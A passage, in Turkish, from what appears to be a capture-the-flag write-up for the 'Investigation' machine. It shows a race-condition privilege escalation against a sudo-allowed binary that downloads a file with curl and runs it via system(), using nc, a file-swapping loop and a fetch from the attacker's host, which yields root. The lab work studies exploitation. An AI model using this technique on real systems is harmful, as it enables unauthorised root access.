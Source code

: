 Bu binary’yi kötüye kullanmak için bir **race condition** (yarış durumu) da istismar edilebilir. Binary, dosyayı alıp kaydettikten sonra bazı string uzunluğu hesaplamaları yapar, bir string oluşturur ve ardından bu stringi çalıştırmak için **system** fonksiyonunu çağırır. **curl** ve **system** çağrıları arasında, dosya mevcut dizinde kaydedildiği için (ve bu dizin mevcut kullanıcıma aitse), bu dosyaları sahip olmasam veya üzerine yazma yetkim olmasa bile taşıyabilirim.

Bunu göstermek için, bir Python web sunucusu yerine **nc** ile 80 numaralı portta dinleme yapacağım. Binary’yi çalıştırdığımda, bağlantı kurar ve sunucunun yanıt vermesini bekleyerek askıda kalır. Bu noktada, çıktı dosyası oluşturulmuş ve boştur.

```
smorton@investigation:~$ ls -l lDnxUysaQn 
-rw-r--r-- 1 root root 0 Apr 18 20:44 lDnxUysaQn
```

Ona yazamıyorum ama hareket ettirebiliyorum:

```
smorton@investigation:~$ echo "test" > lDnxUysaQn 
-bash: lDnxUysaQn: Permission denied
smorton@investigation:~$ mv lDnxUysaQn 0xdf
smorton@investigation:~$ ls
0xdf  user.txt
```

Bunu kötüye kullanmak için, çalıştırmak istediğim bir script oluşturacağım:

```
#!/bin/bash

id
echo "pwned"
```

Şimdi Investigation üzerinde iki shell çalıştıracağım. İlkinde sonsuz bir döngü çalıştıracağım:

```
smorton@investigation:~$ while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage ; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done
```

Bu, `lDnxUysaQn` dosyasının varlığını kontrol eder; eğer mevcutsa, onu `garbage` adında bir dosyaya taşır ve yerine `0xdf.sh` dosyasını kopyalar. Ardından, bir saniye bekler ve bu dosyayı siler.

Şimdi, `binary`'yi çalıştırdığımda dosyanın içeriği önemli değildir, ancak dosyanın var olması gerekir (çünkü bu, **curl**'un başarılı dönmesini sağlar ve dosya çalıştırılır). Bunu çalıştırdığımda:

```
smorton@investigation:~$ sudo binary 10.10.14.6/race lDnxUysaQn
Running... 
uid=0(root) gid=0(root) groups=0(root)
pwned
```

Her zaman tetiklenmeyebilir, ancak benim için çoğu zaman işe yaradı. Çünkü dosyanın görünmesini bekliyor, bu nedenle zamanlama öyle ayarlanmış ki, dosya tam zamanında taşınır.